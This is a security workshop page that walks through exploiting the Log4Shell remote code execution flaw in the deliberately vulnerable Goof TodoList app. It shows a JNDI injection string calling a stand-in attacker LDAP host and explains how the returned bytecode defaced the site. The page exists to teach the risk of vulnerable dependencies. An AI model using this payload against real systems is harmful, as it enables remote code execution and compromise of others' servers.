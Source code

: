 +++
title = "Step 7: Exploit a Vulnerable Open Source component"
chapter = false
weight = 42
+++

## 🚨 **CAUTION** 🚨
> **This section demonstrates exploiting an RCE vulnerability in the TodoList application from the Goof repo. Ensure you understand the security implications and use a controlled, isolated environment to avoid any unintended security risks.**

## Exploiting an RCE vulnerability in the TodoList application

The Goof repo TodoList application contains a variety of exploits designed to demonstrate the risks posed by open source vulnerabilities. We'll demonstrate the infamous Log4Shell vulnerability as an example of an extremenly prolific open source package with a critical CVE that was relatively easy to exploit and gives malicous actors a remote code execution (RCE) vector of attack.

### Open the website
This example is best exploited from your browser so open a tab and navigate to the `todolist` application's loadbalancer address with `/todolist` appended to it.  That hostname was stored in the `TODOLIST_LB` variable during a prior section so you can easily get a string for the URL by echoing it out like this:


```sh
echo http://$TODOLIST_LB/todolist
```
Example LB Address
```
http://a4b2da77928d242b38e4229083fc2669-2133201151.us-east-2.elb.amazonaws.com/todolist
```

When you Click on that URL in your VS Code Server IDE and select "Open", you should see the ToDoList welcome page
![todolist-welcome-page](/images/todolist-welcome.png)

### Log into the app
Click "Sign in" and log into the form with the following pre-populated user account:

* User:
```bash
foo@bar.org
```
* Password:
```bash
foobar
```

![todolist-login](/images/todolist-login.png)

### Trigger the exploit

In the search field enter the following string and submit the search.
```bash
${jndi:ldap://ldap.darkweb:80/#Vandalize}
```
![todolist-search](/images/todolist-search-jndi.png)

### Compromised!
Immediately, you can see that the header for the entire site has been changed to display a hacker's equivalent of graffiti!
![todolist-vandalized](/images/todolist-vandalized.png)

## What?  Why?
A full rundown of the Log4Shell issue is out of scope for this workshop but the high level description is:

* This application is pulling in an older version of the log4j open source library
* The log4j code (at that version) blindly interpolates the JNDI addresses and queries the network for remote values
* Search queries are being logged by the application using log4j
* When the interpolated `${jndi:ldap://ldap.darkweb:80/#Vandalize}` string was encountered, log4j queried an LDAP server named `ldap.darkweb` to ask for something named "/#Vandalize"
* 'ldap.darkweb' is a malicous LDAP impersonator that recognized this request and interacted with log4j code in a way that caused malicuous Java bytecode to be returned and run in the JVM by log4j
* That bytecode modified the header.jsp file in this webapp

The returned bytecode could have done far more mallicous things, not the least of which would be to open a remote, reverse shell into the container.

## Catch and Stop This Vulnerability
In the next step we will look into ways to catch and fix vulnerabilities like this.
